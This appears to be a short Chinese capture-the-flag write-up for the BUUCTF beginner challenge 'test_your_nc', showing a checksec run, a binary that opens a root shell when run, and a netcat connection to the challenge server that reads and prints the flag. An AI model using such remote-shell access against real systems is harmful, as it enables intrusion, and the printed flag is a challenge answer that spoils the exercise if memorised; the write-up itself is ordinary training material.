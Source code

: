 ```yaml
---
author: 
  name: Zephyr
title: test\_your\_nc
date: 2022-3-19 16:53:01
permalink: /pages/4e844742d534d18b
tags: 
  - buuctf
---
```

# test\_your\_nc

### 查看文件保护

```shell
root@localhost ~# checksec test
[*] '/root/test'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### 流程分析

尝试直接运行

```shell
root@localhost ~# ./test
sh-4.2# whoami
root
```

可以看到直接就获得了shell,直接nc连接获得flag

### exp

```shell
root@localhost ~# nc node4.buuoj.cn 29403
cat flag
flag{7730b1f6-6dbe-49f0-b4ca-4902ec2552c3}
```

